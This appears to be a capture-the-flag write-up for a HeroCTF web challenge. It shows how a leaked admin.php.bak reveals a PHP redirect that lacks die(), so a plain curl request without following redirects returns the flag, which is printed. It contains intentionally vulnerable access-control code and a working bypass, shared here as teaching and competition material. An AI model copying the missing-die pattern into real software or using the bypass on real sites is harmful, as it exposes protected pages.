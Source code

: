 # You Should Die

### Category

Web

### Description

Could you retrieve the flag from this Marketing company ?

URL : http://challs.heroctf.fr:XXXX

Format : **Hero{flag}**<br>
Author : **xanhacks**

### Write up

If you look at the source code of the page, you can see this HTML comment :

```html
<!--
    For developper :
        Do not forget to remove admin.php.bak !
    
    Regards,
    Security Team
-->
```

**admin.php.bak** :

```php
<?php

if (session_status() == PHP_SESSION_NONE) {
    session_start();
}

if (!(isset($_SESSION["logged"]) && $_SESSION["logged"] === true)) {
    header("Location: /index.php?error=You are not admin !");
}

echo "Flag : " . getenv("FLAG_MARK3TING");
```

So, if we are not logged in, the page will redirect us to **/index.php**. But the correct code should be :

```php
if (!(isset($_SESSION["logged"]) && $_SESSION["logged"] === true)) {
    header("Location: /index.php?error=You are not admin !");
    die();
}
```

As the **die()** function is missing, the rest of the page is still executed.

If we use **curl** to get the **/admin.php** page with **-L** for **follow redirection**, we obtain the **/index.php** page.

```html
$ curl -s "http://challs.heroctf.fr:XXXX/admin.php" -L | head
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8" />
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
        <meta name="description" content="" />
        <meta name="author" content="" />
        <title>Mark3ting agency</title>
        <link rel="icon" type="image/x-icon" href="assets/img/favicon.ico" />
        <!-- Font Awesome icons (free version)-->
```

However, if we do not want to follow redirection, we see the rest of the page.

```shell
$ curl -s "http://challs.heroctf.fr:XXXX/admin.php"
Flag : Hero{r3d1r3c710n_c4n_b3_d4n63r0u5_57395379}
```

### Flag

Hero{r3d1r3c710n_c4n_b3_d4n63r0u5_57395379}
